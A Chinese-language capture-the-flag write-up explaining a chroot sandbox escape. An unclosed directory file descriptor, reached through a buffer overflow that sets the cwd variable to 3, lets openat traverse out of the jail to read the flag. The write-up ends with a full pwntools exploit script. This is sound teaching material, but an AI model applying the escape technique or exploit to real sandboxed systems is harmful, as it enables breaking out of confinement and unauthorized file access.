

# 🥷 忍术：我设了一个笼 writeup

## 背景

从pwn.college上接触到的沙箱类型，感觉很有意思，便出了一道简单的pwn

本来想结合最近的CVE-2025-32463，但是感觉太刻意了，而且很麻烦

## 答案

### 本地

将`jail.py`里的变量`binary_path`改为编译出来的`jail`文件的路径，并设置`local = 0`运行

### 远程

将`jail.py`里的变量`ip, port`设置为题目的IP与端口，并设置`local = 1`运行



## 解析

### 原理

本题目提供了一个由chroot创造的沙箱(sandbox)环境，详见`man chroot.2`或`man chroot`，具体原理有兴趣的可以了解一下

chroot环境的沙箱逃逸技术有很多种，基本的方法参见[此处](https://pwn.college/system-security/sandboxing/)，而且已经有人收集并整合为一个提权程序，[参见此处](https://github.com/earthquake/chw00t)

该题目使用的方法是依托进入沙箱之前的未关闭的**在沙箱目录外**的目录文件描述符(file descriptor)来协助逃逸

之后可以通过`openat`/`execveat`/`linkat`等以`at`结尾的系统调用来访问/执行沙箱目录外的内容

方法是将**第一个参数设置为该未关闭的文件描述符**，例如:

```c
int fd = open("./", 0);

...
chroot("./jail");
chdir("/");
...

int flag_fd = openat(fd, "../../flag", 0);
// It point to ./../../flag, not ./jail/../../flag
```

原理是这类系统调用第一个参数总是一个文件描述符，当文件名为相对位置时会以第一个参数的位置为当前的目录，具体详见`man openat.2`

本题目便提供了`openat()`函数（为`openat`系统调用的简单wrap），并且第一个参数可以通过变量`buffer`的溢出所控制，从而能穿越路径，达成逃逸

### 漏洞利用

初始化时变量`cwd`设置为`AT_FDCWD`(-100)，意味着以当前目录为参照，在IDA可以看出正好在变量`buffer`之后

在一开始的`banner()`函数中引入了一个未关闭的**指向沙箱外目录**的文件描述符，由于`0`,`1`和`2`号文件描述符一般分别对应着标准输入，标准输出和标准错误流，该文件描述符会分配到`3`号

`cmd_cat()`函数为漏洞函数，它会强制将输入的文件名转为相对路径，却导致了`buffer`的溢出

因此，我们可以溢出控制`cwd`变量为`3`，再输入命令`cat ../../../flag`，从而路径穿越到沙箱外的根目录取得`flag`

### exp

```python
from pwn import *
from ctypes import *

context(arch="amd64", os="linux", log_level="debug")
context.terminal = ["tmux", "split", "-h"]
binary_path = "../src/jail"

rop = ROP(binary_path)
elf = ELF(binary_path)


local = 1

ip, port = "127.0.0.1", 10001
if local == 0:
    p = process(binary_path)
    def dbg(p): return gdb.attach(p)
else:
    p = remote(ip, port)
    def dbg(_): return None


def ls(addr): return log.success(hex(addr))
def recv(char): return u64(p.recvuntil(char, drop=True).ljust(8, b"\0"))

# =================start=================#


dbg(p)
payload = b"cat "
payload = payload.ljust(0x200 - 0x1, b'\x03')
p.sendafter("$ ", payload)

payload = b'cat ../../../flag'
p.sendlineafter("$ ", payload)

p.interactive()
```
